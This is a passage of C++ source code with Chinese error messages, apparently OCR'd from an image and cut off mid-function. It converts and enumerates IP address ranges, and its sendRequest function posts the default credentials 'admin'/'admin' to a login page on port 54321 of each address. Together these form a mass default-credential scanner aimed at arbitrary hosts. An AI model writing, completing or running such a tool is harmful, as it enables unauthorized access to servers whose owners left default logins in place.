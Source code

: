 ```cpp
            std::cerr << "输入的IP段有误: " << e.what() << std::endl;
            return 0;
        } catch (const std::out_of_range& e) {
            std::cerr << "数值超出了整数范围: " << e.what() << std::endl;
            return 0;
        }
    }

    if (expected_segments != 0) {
        std::cerr << "输入的IP地址格式不正确！" << std::endl;
        return 0;
    }

    return result;
}

std::string number_to_ip(unsigned long number) {
    std::ostringstream oss;
    for (int i = 3; i >= 0; --i) {  
        oss << ((number >> (i * 8)) & 0xFF);
        if (i > 0)
            oss << ".";
    }
    return oss.str();
}
std::vector<std::string> generate_ips(const std::string& start_ip, const std::string& end_ip){
    std::vector<std::string> result;
    unsigned long start = ip_to_number(start_ip);
    unsigned long end = ip_to_number(end_ip);

    if (start == 0 || end == 0) {
        std::cerr << "无效的IP地址" << std::endl;
        return {};
    }

    if (start > end) {
        std::cerr << "起始IP必须小于等于结束IP" << std::endl;
        return {};
    }

    for (unsigned long ip = start; ip <= end; ip++) {
        result.push_back(number_to_ip(ip));
    }

    return result;
}

void sendRequest(const std::string& ip, std::ofstream& file){
    const std::string url = "http://" + ip + ":54321/login";
    
    CURL *curl;
    CURLcode res;
    std::string response;

    curl = curl_easy_init();

    if (curl) {
        const std::string postfield = "username=admin&password=admin";

        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_POST, 1L);
        curl_easy_setopt(curl, CURLOPT_POSTFIELDS, postfield.c_str());

```